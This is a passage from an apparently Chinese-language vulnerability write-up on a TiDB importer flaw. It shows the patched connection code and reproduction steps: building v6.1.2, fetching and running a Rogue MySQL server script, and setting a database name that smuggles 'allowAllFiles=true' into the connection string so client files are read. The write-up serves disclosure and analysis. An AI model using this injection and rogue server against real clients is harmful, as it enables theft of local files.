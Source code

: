 1.而cfg.Name表示直接从配置文件中读取database name，没有经过任何清理；  
  
2.现在已经改成了使用cfg配置登录的模式，类似预编译：  
```
driverCfg := mysql2.NewConfig()
driverCfg.User = cfg.User
driverCfg.Passwd = cfg.Password
driverCfg.Net = "tcp"
driverCfg.Addr = cfg.Host + ":" + strconv.Itoa(cfg.Port)
driverCfg.DBName = cfg.Name

c, err := mysql2.NewConnector(driverCfg)
```  
  
**漏洞复现**  
  
  
首先拉取tidb的源码：  
```
git clone https://github.com/pingcap/tidb.git
```  
  
切换到有漏洞的版本：  
```
git checkout tags/v6.1.2
```  
  
构建importer  
```
cd tidb/cmd/importer
go build .
```  
  
配置Rogue MySQL服务器，启动服务：  
```
wget -q https://github.com/allyshka/Rogue-MySql-Server/raw/master/roguemysql.php
# 运行 Rogue-MySql-Server 脚本
php roguemysql.php /path/to/target/file
```  
  
  
修改config.toml文件：  
```
[db]
host = "127.0.0.1"
user = "root"
password = ""
name = "test?allowAllFiles=true&"
port = 3306
```  
  
执行importer， 可以看到已经读取了客户端文件，并回显了文件内容：  
```
./importer -config config.toml
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Go7NSXrKWd5Zwk0rt5IQ2PDqWgwsrd14IHQd9crOVibUhnjRl2ibQtIyicx38XpQtt30E4KZFOtv3hwIyqBkjdgSg/640?wx_fmt=png&from=appmsg "")  
  
**CodeQL查询分析**  
  